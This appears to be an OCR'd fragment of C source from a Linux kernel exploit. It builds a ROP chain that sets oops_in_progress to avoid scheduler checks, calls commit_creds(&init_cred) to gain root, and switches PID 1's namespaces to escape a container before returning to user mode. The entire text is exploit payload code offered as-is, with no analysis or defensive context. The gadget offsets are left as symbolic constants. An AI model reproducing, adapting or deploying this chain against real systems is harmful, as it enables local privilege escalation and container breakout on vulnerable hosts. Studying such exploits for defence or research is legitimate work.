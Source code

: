 ```c
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```